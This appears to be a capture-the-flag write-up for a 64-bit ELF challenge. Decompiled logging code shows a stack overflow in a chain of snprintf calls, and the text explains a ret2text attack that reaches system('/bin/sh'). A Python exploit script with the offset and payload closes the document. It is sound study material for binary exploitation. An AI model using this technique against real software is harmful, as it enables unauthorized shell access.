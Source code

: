 ```c
  maxlen = 0x100LL;
  n = snprintf(&buf, 0x100uLL, "LOG: [OPERATION: %s] ", a1, a2);
  if ( n < 0 )
    exit(1);
  ptr += n;
  maxlen -= n;         // first 
  if ( authed )        // authed=1 after [1]auth 
  {
    n = snprintf(ptr, maxlen, "[USERNAME: %s] ", var_138);
    if ( n < 0 )
      exit(1);
    ptr += n;
    maxlen -= n;      // second 
  }
  if ( *var_rsp )
  {
    n = snprintf(ptr, maxlen, "%s", var_rsp);
    if ( n < 0 )
      exit(1);
    ptr += n;
    maxlen -= n;      // thrid, bof here
  }
  fprintf(stderr, "%s\n", &buf);
```

> bof is enable while `authed=1` 

This elf64 program use format string `%s` to print our input string to `ptr`(in stack) , so only one gadget can be used beacuse bad code `\x00` in address of gadget will terminal our input. 

>  ROP is not a good idea.

But ret2text is still available, only one gadget is enough: 

```nasm
.text:0000000000401598  mov     rdi, rax        ; command
.text:000000000040159B  call    _system
```

Before ret2text ,we should set `rax` point to `"/bin/sh"`. This work can be done by selected [1]auth one more time and set the begining of username to `"/bin/sh;"`.

### Solution

```python
system = 0x000000000401598 

# elf, libc
satck = 0x4040E0+0x100
# rop1
offset = 282
payload = ''
payload += 'A'*offset
payload += p64(system)
payload = payload.ljust(1000,'\0')

# auth flag = 1
sla(' > ','1')
sla('  Input username: ','admin'+'a'*1000)
sla('  Input password: ','password233')

# rax <- /bin/sh;
sla(' > ','1')
sla('  Input username: ','/bin/sh;'+'b'*1000)

sla(' > ','2')
```
